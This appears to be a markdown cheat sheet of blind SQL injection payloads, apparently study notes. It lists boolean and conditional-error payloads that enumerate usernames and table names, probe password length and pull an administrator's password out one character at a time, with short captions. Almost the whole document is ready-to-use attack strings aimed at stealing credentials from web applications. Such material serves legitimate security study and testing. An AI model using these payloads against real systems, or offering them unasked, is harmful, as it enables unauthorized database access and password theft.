

* **Payloads to enumerate valid users that are in a column called username:**

```
'and (select 'a' from users where username='{userName}')='a
```


* **Payloads to determine the length of a user's password.  This payload uses a table called users and 2 columns called username and password:**

```
' and (select 'a' from users where username='administrator' and length(password)>10)='a
```


* **Payloads to extract the password of a user 1 character at a time:**

```
' and (select substring(password,1,1) from users where username='administrator')='{character}
```


<br>

#### SQLi Blind Conditional Errors Examples


* Identify if the following 2 payloads result in a notable difference in the responses from the application:


    * ' and 1=1--

    * ' and 1=0--


* Identify if the below payloads cause an SQL exception or error message.  Dividing by zero may cause an exception:


    * ' and to_char(1/1)=1--

    * ' and to_char(1/0)=1--

<br>

* **Payloads to enumerate table names:**

```
'||(select '' from {tableName} where rownum = 1)||'
```
```
'union select 'a' from {tableName} where 1=1--
```


* **Payloads to determine if there is a user named administrator on the table called users.**  If the <u>user exists</u>, then an error (1/0) will result.  Basically, if the <u>query is valid</u> then an exception will occur, if it is <u>not valid</u> then the '' will be executed:

```
'||(select case when(1=1) then to_char(1/0) else '' end from users where username='administrator')||'
```
